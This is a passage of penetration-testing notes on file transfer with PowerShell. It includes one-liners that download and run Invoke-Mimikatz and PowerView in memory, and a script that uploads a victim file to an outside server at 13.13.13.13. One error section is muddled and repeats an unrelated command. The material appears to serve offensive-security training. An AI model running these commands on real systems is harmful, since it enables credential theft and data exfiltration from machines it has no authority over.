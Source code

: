 ```powershell
PS C:\> IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/EmpireProject/Empire/master/data/module_source/credentials/Invoke-Mimikatz.ps1')
```

**Common Errors**

* **Internet Explorer Error**

```powershell
PS C:\> Invoke-WebRequest https://<ip>/PowerView.ps1 | IEX

Invoke-WebRequest : The response content cannot be parsed because the Internet Explorer engine is not available, or Internet Explorer's first-launch configuration is not complete. Specify the UseBasicParsing parameter and try again.
At line:1 char:1
+ Invoke-WebRequest https://raw.githubusercontent.com/PowerShellMafia/P ...
+ ~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
+ CategoryInfo : NotImplemented: (:) [Invoke-WebRequest], NotSupportedException
+ FullyQualifiedErrorId : WebCmdletIEDomNotSupportedException,Microsoft.PowerShell.Commands.InvokeWebRequestCommand

PS C:\carnifex17> Invoke-WebRequest https://<ip>/PowerView.ps1 -UseBasicParsing | IEX
```

* **SSL/TLS Untrusted certificate error**

```powershell
PS C:\> IEX(New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/juliourena/plaintext/master/Powershell/PSUpload.ps1')
```

### <mark style="color:blue;">PowerShell Web Uploads</mark>

PowerShell doesn't have a built-in upload fucntions, so we need to use **Invoke-WebRequest**. or **Invoke-RestMethod.** Also we can use uploadserver module for Python, to install it we should use:

```bash
pip3 install uploadserver
```

* **Turn On Web Server with Upload**

```bash
python3 -m uploadserver
```

1. **PowerShell Script to Upload a File to Python Upload Server**

```powershell
PS C:\> IEX(New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/juliourena/plaintext/master/Powershell/PSUpload.ps1')
PS C:\> Invoke-FileUpload -Uri http://13.13.13.13:8000/upload -File C:\Windows\System32\drivers\etc\hosts
```

2. **PowerShell Base64 Web Upload**. Convert file to base64 and send it using Invoke-WebRequest with POST method.
